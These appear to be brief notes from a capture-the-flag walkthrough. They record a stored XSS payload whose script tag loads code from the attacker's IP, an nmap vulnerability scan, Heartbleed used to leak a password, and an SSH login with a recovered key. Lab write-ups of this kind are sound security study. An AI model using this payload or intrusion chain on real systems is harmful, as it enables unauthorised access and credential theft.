 we tried to do a stored xss attack with 
```
"><script src=http://10.10.16.9></script>
```
![[Pasted image 20211215204959.png]]
and we get a hit!
we couldn't do much with what we found but we ran 
nmap --script vuln and we got something interesting
a  exploit on ssl called heart bleed
![[Pasted image 20211215223036.png]]
running heartbleed we leaked some interesting info 
looks like someone is typing a base64 string into /decode 
https://www.exploit-db.com/exploits/32745 #heartbleed 
![[Pasted image 20211215225404.png]] it looks like a password
heartbleedbelievethehype
now let's try to ssh with the key we found earlier and the password we found now and i assume the username will be hype because the key was called hype.key
![[Pasted image 20211215230803.png]]
we are in !